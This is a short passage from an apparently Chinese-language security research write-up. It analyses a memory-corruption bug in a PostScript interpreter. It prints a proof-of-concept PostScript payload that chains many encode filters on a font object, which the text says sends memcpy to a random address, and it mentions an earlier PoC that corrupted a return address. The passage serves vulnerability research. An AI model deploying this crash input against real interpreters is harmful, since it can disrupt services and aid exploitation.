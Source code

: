 [![](assets/1706771701-9c304426037b0f676a816cc7200f125d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202405-4b687928-bea1-1.png)

可以发现他造成了函数返回地址指向了一个无效的地址。

另一个 poc 注入如下：

```bash
() (1337leet) /FlateEncode filter /ASCII85Encode filter dup /TBCPEncode filter rootfont /CCITTFaxEncode filter rootfont /zlibEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /CCITTFaxEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /CCITTFaxEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCII85Encode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /PSStringEncode filter /SHA256Encode filter closefile
```

这个 poc 导致了 memcpy 到运行到一个随机的地址
